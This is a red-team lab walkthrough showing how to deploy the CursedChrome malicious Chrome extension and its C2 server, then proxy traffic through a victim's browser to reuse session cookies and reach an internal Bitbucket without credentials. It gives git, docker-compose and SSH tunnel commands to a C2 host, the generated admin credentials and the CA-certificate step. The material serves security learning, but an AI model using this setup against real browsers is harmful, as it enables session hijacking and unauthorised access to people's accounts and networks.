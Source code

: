 # Man-in-the-Browser via Chrome Extension

## Overview

This is a quick lab to familiarize with a [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) Chrome extension, which at a high level works in the following way:

1. CursedChrome extension is added to Chrome on a compromised computer;
2. Compromised computer's Chrome connects back to an attacker controlled CursedChrome C2 server. Comromised computer's Chrome now acts as a proxy into the compromised network;
3. Attacker can now proxy web requests through the compromised computer's Chrome and reach any internal web application that the compromised user/computer can access.

The beauty of this technique is in the fact that the attacker's web requests leverage cookies stored in the compromised Chrome browser, which means that if a compromised user is logged on to some web application the attacker is interested in, the attacker no longer requires to authenticate to that application in order to access it as their HTTP request will re-use the existing cookies from the compromised Chrome and will be let in without being asked to provide credentials.

The extension [author](https://github.com/mandatoryprogrammer) visualizes the whole process like so:

![Source: https://github.com/mandatoryprogrammer/CursedChrome](<../../.gitbook/assets/image (1072).png>)

## Environment

Below is a list of systems involved in this lab:

* 18.130.61.92 - CursedChrome C2 server;
* 10.0.0.7 - attacker computer `WS01`;
* x.x.x.x - compromised computer in some other network outside the `WS01` computer's network.

## Setup

### CursedChrome C2 Server

On the CursedChrome C2 server, pull the CusedChrome git repo, enter it and spin up the CursedChrome server using `docker-compose` with the following commands:

```bash
git clone https://github.com/mandatoryprogrammer/CursedChrome.git /opt/
cd /opt/CursedChrome
docker-compose up -d redis db
docker-compose up cursedchrome
```

After running the above `docker-compose`, you should see the below screen:

![CursedChrome C2 server installed and configured](<../../.gitbook/assets/image (1066).png>)

Save the username and password for later as these will be required when connecting to the CursedChrome C2 web console:

```
USERNAME: admin
PASSWORD: 9iax0t2gpbd9skqf0p2z8ry53k9s144x
```

Additionally, note that the CursedChrome's web console is listening on `127.0.0.1:8118` and HTTP proxy on `127.0.0.1:8080` - we will need these later, when setting up local SSH tunnels, so that we can access these services from the attacking machine `WS01`.

### Compromised Computer with CursedChrome Implant

On a compromised computer, we need to install the CursedChrome implant.&#x20;

It's up to you how you will do it, but for the demo purposes, I simply enabled `Developer mode` and clicked `Load unpacked` and pointed it to the `.\extension` folder from the CursedChrome's repo. The extension is now installed:

![CursedChrome installed in to Chrome](<../../.gitbook/assets/image (1068).png>)

### Attacker

On the attacker machine, let's set up a couple of local SSH tunnels.

#### SSH Tunnel for CursedChrome Web Console

In order to access the CursedChrome's C2 web console via `http://localhost:1111`, we need the following SSH tunnel to the CursedChrome's C2 server:

```
ssh ubuntu@18.130.61.92 -L1111:localhost:8118 -f -N
```

#### SSH Tunnel for CursedChrome HTTP Proxy

In order to proxy our HTTP traffic through the CursedChrome's C2 web proxy, using FoxyProxy, we need the following tunnel:

```
ssh ubuntu@18.130.61.92 -L2222:localhost:8080 -f -N
```

Once we have the tunnels setup, we can try accesing the web console by navigating to `http://localhost:1111` and if everything works, you should see a login panel:

![CursedChrome web console.](<../../.gitbook/assets/image (1067).png>)

Enter the admin credentials you got after setting up the CursedChrome server using `docker-compose` and you should now be logged on to the panel, where you will see a bot / compromised computer's CursedChrome extension calling back to the CursedChrome C2:

![CursedChrome web panel, logged in.](<../../.gitbook/assets/image (1069).png>)

Note the username and password of the bot as you will need it when configuring FoxyProxy.

#### Installing CursedChrome CA Certificate to FireFox

{% hint style="danger" %}
**Important**\
Do not forget to export the Proxy CA certificate (see the big download button below the connected bots panel) and install it to FireFox as this is required for the technique to work.
{% endhint %}

![Installing CursedChrome CA Certificate to FireFox](../../.gitbook/assets/install-cert.gif)

#### Configuring FireFox Extension FoxyProxy

Now we're ready to setup the FoxyProxy (FireFox extension).&#x20;

Proxy IP and port should be `127.0.0.1:2222` (remember, we set up a local SSH tunnel for this earlier) and username/password should be those seen in the "Connected bots" panel in the CursedChrome's C2 web console:

![ProxyFoxy configured to proxy traffic through the infected Chrome on a compromised computer](<../../.gitbook/assets/image (1070).png>)

Configure FireFox to use the FoxyProxy you just set up and you are ready to access some internal web application on a compromised computer's network, that otherwise would not be accessible to you.

## Moment of Truth

With all the setup completed, the below image shows how I'm able to access a Bitbucket on behalf of a compromised user `Mantvydas` without knowing their credentials on a network that is outside of the attacking VM `WS01`:

![Accessing Bitbucket via a compromised computer with CursedChrome extension installed on it](<../../.gitbook/assets/image (1074).png>)

## References

{% embed url="https://github.com/mandatoryprogrammer/CursedChrome" %}
